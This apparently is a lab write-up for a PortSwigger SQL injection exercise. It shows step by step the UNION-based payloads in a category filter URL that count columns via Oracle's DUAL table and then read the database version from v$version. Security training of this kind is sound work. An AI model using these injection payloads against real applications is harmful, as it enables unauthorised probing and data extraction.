 ```yaml
---
title: 🕸️ PSA - SQLi 7 - UNION attack, querying the database type and version on Oracle
date: 2023-03-15
categories: [PortSwigger, SQLi]
tags: [portswigger, web, sqli]
---
```


Difficulty : `Practitioner`

## 🎯 Goal

To solve the lab, display the Oracle database version string.

## ✅ Solution

> On Oracle, every SELECT query must use the FROM keyword and specify a valid table. There is a built-in table on Oracle called `dual` which can be used for this purpose. So the injected queries on Oracle would need to look like: `' UNION SELECT NULL FROM DUAL--`

Number of columns:

````text
<website>/filter?category=Pets' UNION SELECT NULL FROM DUAL--    # error!
<website>/filter?category=Pets' UNION SELECT NULL,NULL FROM DUAL--    # works
<website>/filter?category=Pets' UNION SELECT NULL,NULL,NULL FROM DUAL--    # error!
````

Is one column containing string?

````text
<website>/filter?category=Pets' UNION SELECT 'abc',NULL FROM DUAL--    # works
````

Full payload:

````text
<website>/filter?category=Pets' UNION SELECT banner,NULL FROM v$version--
````

The database type and version are displayed.
